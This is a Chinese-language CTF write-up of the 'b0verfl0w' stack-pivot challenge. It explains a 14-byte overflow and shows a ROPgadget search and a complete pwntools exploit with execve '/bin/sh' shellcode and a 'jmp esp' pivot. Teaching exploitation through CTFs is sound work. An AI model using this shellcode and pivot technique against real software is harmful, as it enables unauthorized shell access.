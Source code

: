 ```yaml
---
layout: '''x-ctf'
title: b0verfl0w'
date: 2018-03-18 23:11:36
tags: pwn
---
```

stack privot 题目
溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack privot。

基本利用思路如下

利用栈溢出布置shellcode
控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

`ROPgadget --binary b0verfl0w --only 'jmp|ret'  `

size(shellcode+padding)=0x20
size(fake ebp)=0x4
size(0x08048504)=0x4
所以我们最后一段需要执行的指令就是

```
sub 0x28,esp
jmp esp

```
Memory layout:
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting | 

```
from pwn import *
sh = process('./b0verfl0w')
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
padding = 'a'*13
jmp_esp = 0x08048504
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = shellcode+padding+p32(jmp_esp)+sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```
我不明白既然有了 asm('sub esp,0x28;jmp esp') 为什么还需要直接跳转到esp的gadgets。
解释：我们就可以借由jmp esp将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell
